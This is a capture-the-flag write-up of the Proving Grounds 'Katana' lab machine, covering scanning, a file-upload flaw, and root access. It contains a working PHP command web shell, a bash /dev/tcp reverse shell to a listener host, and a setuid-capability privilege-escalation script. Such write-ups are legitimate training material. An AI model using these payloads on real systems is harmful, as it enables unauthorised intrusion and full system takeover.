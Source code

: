 ```yaml
---
layout: default
title: Katana
parent: Proving Grounds Play
nav_order: 21
---
```


# Scanning

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.183.83
```

# Enumeration

---

## 21 - FTP

Anonymous logon not allowed.

## 80 - HTTP

Authenticate to /ebook/admin.php with **_admin:admin_** but ends up being deadend.

## 8088 - HTTP

Running **wfuzz** returns the following files:

- index.html
- upload.php
- upload.html

**upload.html** provides a place to upload files.

![upload](../../../assets/images/ctfs/proving_grounds/katana/upload.png)

### Upload PHP cmd shell

Create **shell.php** with the following contents:

```bash
<?php
echo "<pre>";
passthru($_GET['cmd']);
echo "</pre>";
?>
```

After successful upload the output indicates that the PHP web shell has been placed on the "other web server"

![upload_message](../../../assets/images/ctfs/proving_grounds/katana/upload_message.png)

# Exploitation

---

## Reverse Shell via PHP Web Shell

We have a PHP web shell with command execution.

Generate a reverse shell using **revshellgen**

```bash
# Generate reverse shell payload
revshellgen -i 192.168.45.217 -p 9001 -t bash

# URL encode the payload
urlencode "bash -i >& /dev/tcp/192.168.45.217/9001 0>&1"

# Output
bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261
```

Execute the URL encoded payload in the PHP web shell

```bash
# URL to execute
http://192.168.183.83:8715/katana_shell.php?cmd=bash -c "bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261"
```

Receive back a reverse shell on the netcat listener.

![rev_shell](../../../assets/images/ctfs/proving_grounds/katana/rev_shell.png)

# Post-Exploitation

---

## Upgrade to TTY Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty size
stty raw -echo
fg
stty rows <first_value>
stty cols <second_value>
export TERM=xterm-256color
```

## Check for extended capabilities

```bash
getcap -r / 2>/dev/null
```

![extend_cap](../../../assets/images/ctfs/proving_grounds/katana/extend_cap.png)

Within the /tmp directory, create **priv.py** that does the following:

1. Sets the UID to 0
2. Generates a /bin/bash shell

```python
import os

os.setuid(0)
os.system("/bin/bash")
```

Make **priv.py** executable and run with python2.7 to get root shell.

![root](../../../assets/images/ctfs/proving_grounds/katana/root.png)

